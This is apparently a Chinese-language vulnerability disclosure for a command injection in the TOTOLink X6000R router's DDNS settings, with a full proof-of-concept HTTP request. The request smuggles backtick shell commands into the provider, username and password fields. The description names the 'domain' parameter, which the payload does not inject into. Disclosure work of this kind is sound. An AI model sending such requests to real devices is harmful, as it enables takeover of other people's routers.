


# TOTOLink x6000r

**固件版本**：V9.4.0cu.852_20230719

漏洞类型：命令注入漏洞

漏洞描述：在sub_410118函数内通过构造合适的payload，可以通过"domain"参数实现命令注入。


## POC：

```yaml
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.75.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 103
Origin: http://192.168.75.2
Connection: close
Referer: http://192.168.75.2/advance/ddns.html
{"enable":"1","provider":"`ls > /1.txt`","domain":"1","username":"`ls > /2.txt`","password":"`ls > /3.txt`","topicurl":"setDdnsCfg"}
```




## 演示

通过poc脚本可以造成远程代码执行：



